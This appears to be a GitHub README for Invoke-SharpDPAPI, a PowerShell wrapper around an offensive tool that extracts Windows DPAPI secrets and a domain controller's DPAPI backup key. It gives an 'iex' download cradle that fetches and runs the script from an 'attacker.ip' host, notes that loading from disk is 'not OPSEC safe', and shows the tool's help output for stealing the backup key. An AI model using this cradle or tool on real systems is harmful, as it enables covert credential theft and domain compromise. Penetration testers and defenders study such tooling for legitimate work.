 # Invoke-SharpDPAPI

Build with Visual Studio by using the folowing repository: https://github.com/GhostPack/SharpDPAPI

Used the following script to pack: https://gist.github.com/Mayfly277/2e5f34a7e7f70798d1f19c0c35f9fa0e

## Usage

Load the tool into memory

```bash
# From Disk but it is not OPSEC safe
PS C:\> . .\Invoke-SharpDPAPI.ps1

# Or load with a download cradle
iex (new-object system.net.webclient).downloadstring("http://attacker.ip/Invoke-SharpDPAPI.ps1")
```

## Execute

```bash
PS C:\workdir> Invoke-SharpDPAPI -Command ""

  __                 _   _       _ ___
 (_  |_   _. ._ ._  | \ |_) /\  |_) |
 __) | | (_| |  |_) |_/ |  /--\ |  _|_
                |
  v1.12.0



Retrieve a domain controller's DPAPI backup key, optionally specifying a DC and output file:

  SharpDPAPI backupkey [/nowrap] [/server:SERVER.domain] [/file:key.pvk]
[....]
```
